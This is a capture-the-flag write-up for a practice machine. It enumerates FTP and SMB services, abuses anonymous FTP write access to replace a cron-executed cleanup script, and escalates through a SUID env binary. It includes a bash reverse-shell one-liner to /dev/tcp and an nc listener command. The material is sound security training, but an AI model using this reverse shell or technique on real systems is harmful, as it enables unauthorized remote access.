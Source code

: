+++
title = 'Anonumous'
draft = true
+++

Anonumous
===

###  PWN

- [x] Enumerate the machine.  How many ports are open?
As always, we can use namp to enumerate open ports.  
`nmap -sV -sC 10.10.11.170`  
```
Starting Nmap 7.60 ( https://nmap.org ) at 2022-11-04 06:15 GMT
Nmap scan report for ip-10-10-11-170.eu-west-1.compute.internal (10.10.11.170)
Host is up (0.0010s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-anon: Anonymous FTP login allowed (FTP code 230)   <---can use anonymous login!!
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeabl                                                                  e]
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.27.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protoco                                                                  l 2.0)
| ssh-hostkey:
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (EdDSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:88:90:5A:E3:A3 (Unknown)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknow                                                                  n> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2022-11-04T06:15:52+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2022-11-04 06:15:52
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap                                                                  .org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.41 seconds
```
- [x] What service is running on port 21?  
21 port is ftp
- [x] What service is running on ports 139 and 445?  
139 and 445 are smb
- [x] There's a share on the user's computer.  What's it called?  
use smbclient to confirm share disk 
`smbclient -N -L 10.10.11.170`
![image](https://user-images.githubusercontent.com/67756786/199912107-a01e29dd-40db-4bb9-95f6-c5db6aabf0f2.png)

- [x] user.txt  
we use anonymous login ftp server.
`ftp -4 10.10.11.170`  
![image](https://user-images.githubusercontent.com/67756786/199905611-889abdec-ff61-474f-96f7-1cd73446c6fe.png)
use `ls` to check what file are there, and we found scripts directory.
![image](https://user-images.githubusercontent.com/67756786/199905651-9f7f2938-7811-4de5-a393-8914fe795f08.png)
Into the scripts, and we got three file.
![image](https://user-images.githubusercontent.com/67756786/199906253-23f369f4-fe45-4c8d-97aa-1bbecd0090b7.png)
download all file .
`mget *`
clean.sh
```
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
removed_files.log
```
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
to_do.txt
```
I really need to disable the anonymous login...it's really not safe
```
We know clean.sh is delete file's shell script,and removed_files.log is log of clean.sh.to_do.txt is user's note.  
removed_files will be bigger over time,and i guess that crontab should be work for clean.sh.we can add bash reverse shell into
clean.sh,and upload to ftp server.  
Bash TCP  
`/bin/bash -l > /dev/tcp/10.10.27.128/9000 0<&1 2>&1`
listen to 9000 port and upload clean.sh  
`nc -lvnp 9000`  
into ftp server , put new clean.sh  
`put clean.sh`  
![image](https://user-images.githubusercontent.com/67756786/199908391-66377823-80e3-465d-a355-7f7482401cc5.png)
![image](https://user-images.githubusercontent.com/67756786/199908457-dcca7c04-60d7-4051-8131-6e496e50100e.png)

- [x] root.txt  
First, I use python pty to get better shell  
![image](https://user-images.githubusercontent.com/67756786/199910410-fff469dd-66dc-4b38-bb39-31e8c41b38ce.png)

we can confirm privilege now.  
But we don't have namelessone password  
`sudo -l`
![image](https://user-images.githubusercontent.com/67756786/199910678-b7b867d3-0e51-4bd9-8ed3-0059a4594b13.png)  

So we found SUID to privilege escalation.
`find / -perm -u=s -type f 2>/dev/null`  
![image](https://user-images.githubusercontent.com/67756786/199911319-67f783e4-b5de-4782-ac83-836995edcc3e.png)

I confirm all applicatoin to GTFOBins. If applicatoin use sudo to privilege escalation, we can't exploit, because we don't have
password.

I found env can use SUID to privilege escalation.  
![image](https://user-images.githubusercontent.com/67756786/199911445-dca2041f-f582-4448-b32f-ef466a98b2cb.png)
got root.txt
![image](https://user-images.githubusercontent.com/67756786/199911573-d639b774-e745-43ec-a5a5-3e93d7b8d0ea.png)

